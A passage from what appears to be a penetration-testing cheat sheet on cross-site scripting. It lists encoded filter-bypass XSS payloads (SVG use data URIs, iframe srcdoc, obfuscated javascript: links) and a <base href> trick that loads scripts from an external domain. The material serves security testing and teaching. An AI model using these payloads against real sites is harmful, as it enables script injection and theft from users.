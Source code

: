 <pre class="language-html" data-overflow="wrap"><code class="lang-html">&#x3C;!-- Use the powerful SVG &#x3C;use> tag to include HTML data (which can be encoded) -->
<strong>&#x3C;svg>&#x3C;use href="data:image/svg+xml,&#x26;lt;svg id='x' xmlns='http://www.w3.org/2000/svg'&#x26;gt;&#x26;lt;image href='1' o&#x26;#110;error='alert(1)' /&#x26;gt;&#x26;lt;/svg&#x26;gt;#x" />
</strong>
&#x3C;!-- The same idea but with base64 encoding -->
<strong>&#x3C;svg>&#x3C;use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==#x" />&#x3C;/svg>
</strong>
&#x3C;!-- Using iframe srcdoc= attribute to include encoded HTML -->
<strong>&#x3C;iframe srcdoc="&#x26;lt;img src=1 o&#x26;#110;error=alert(1)&#x26;gt;">&#x3C;/iframe>
</strong>
&#x3C;!-- Link requiring user interaction with javascript: URL -->
&#x3C;a href="&#x26;#106avas&#x26;#99ript:alert()">Click me!&#x3C;/a>
</code></pre>

One last payload is a less well-known tag called `<base>` which takes an `href=` attribute that will decide where any **relative URLs will start** from. If you set this to your domain for example, and later in the document a `<script src="/some/file.js">` is loaded, it will instead be loaded from **your website** at the path of the script.&#x20;

<pre class="language-html"><code class="lang-html"><strong>&#x3C;base href=//xss.jorianwoltjer.com>
</strong>
&#x3C;!-- Any normal relative script after this payload will be taken from the base -->
&#x3C;script src="/some/file.js">
&#x3C;!-- ^^ Will fetch 'http://xss.jorianwoltjer.com/some/file.js' instead -->
</code></pre>

{% hint style="info" %}
To exploit and show a proof of concept of the above trick, I set up [this domain](https://xss.jorianwoltjer.com/) that returns the same script for **every path** with any payload you put into that **URL hash**. This means you can include this injection anywhere, and put a JavaScript payload after the `#` symbol of the target URL which will then be executed:

```go
http://example.com/path#alert(document.domain)
```
{% endhint %}

See [#filter-bypasses](cross-site-scripting-xss.md#filter-bypasses "mention") for a more broad approach to make your own bypass.

#### Alternative Impact

If inserting tags to achieve XSS is really not possible, due to a string filter or some other restriction, you can always try to get other impact using an HTML injection as they can be very powerful.&#x20;

One idea is to use **DOM Clobbering**, which is a technique that uses `id`'s and other attributes of tags that make them accessible from JavaScript with the `document.<name>` syntax. The possibility of this depends on what sinks are available, and should be evaluated case-by-case:

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering" %}
A simple reference with examples and tricks about DOM Clobbering ([more detail](https://domclob.xyz/))
{% endembed %}
